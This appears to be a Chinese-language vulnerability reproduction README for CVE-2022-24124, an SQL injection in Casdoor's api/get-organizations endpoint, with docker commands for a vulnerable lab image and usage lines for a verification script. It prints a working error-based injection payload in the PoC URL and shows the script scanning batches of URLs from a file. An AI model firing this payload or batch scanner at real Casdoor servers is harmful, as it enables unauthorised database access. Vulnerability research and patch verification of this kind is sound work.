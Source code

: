 ## 前言
Casdoor是一个基于OAuth 2.0/OIDC的中心化的单点登录（SSO）身份验证平台

---
## 编号
CVE编号:CVE-2022-24124

CNPD编号:CNPD-202201-7304

---
## 影响版本
危险等级：高 ( 7.5 HIGH )

POC/EXP：已公开

Casdoor < Casdoor 1.13.1 //1.13.1版本之前均受影响

---
## 漏洞简介
此漏洞属于Sql注入漏洞，在查询API 存在与字段和值参数相关的SQL 注入漏洞，如api/get-organizations 所示。

---
## 复现
拉取漏洞镜像

`docker pull vulfocus/casdoor:1.13.0`

![拉取docker](https://user-images.githubusercontent.com/81157360/187730577-adc079f5-90ae-4506-b4b4-d50866d6b51f.png)

启动漏洞环境

`docker run -itd -p 8000:8000 -it -d vulfocus/casdoor:1.13.0`

![dockerRun](https://user-images.githubusercontent.com/81157360/187730597-0fd44631-ef43-4c9d-b30e-5c079cfbe50c.png)

打开漏洞环境页面

![http](https://user-images.githubusercontent.com/81157360/187730729-321adfa0-d397-4b5d-b3e4-99c9a5e2da02.png)

使用POC构造payload
> POC: /api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=updatexml(1,version(),3)

![1661963474975](https://user-images.githubusercontent.com/81157360/187731108-0f748637-ff45-48ad-bcf8-2230719bf67b.jpg)

---

## 一键验证脚本
### 声明: 工具仅供安全研究或授权渗透，非法用途后果自负，作者并不承担任何责任以及连带责任

```python
python3 CVE-2022-24124.py -h
```
![image](https://user-images.githubusercontent.com/81157360/187732923-588ba7e3-0f8f-4d7f-84ff-0285c113d287.png)


```python
python3 CVE-2022-24124.py -u http://127.0.0.1
```
![image](https://user-images.githubusercontent.com/81157360/187732285-125f64d1-c0da-491b-a823-5ea86f6bb4c9.png)

```python
python3 CVE-2022-24124.py -f urls.txt
```
![image](https://user-images.githubusercontent.com/81157360/187732476-6fee8c34-9146-46ce-963e-4f4fcfb912df.png)

---
## 相关信息

https://nvd.nist.gov/vuln/detail/CVE-2022-24124

https://github.com/ColdFusionX/CVE-2022-24124

https://github.com/0xAbbarhSF/CVE-2022-24124

借鉴于https://www.t00ls.com/thread-66989-1-1.html

练手写了一个python版本的，并且加了一个批量检测的功能
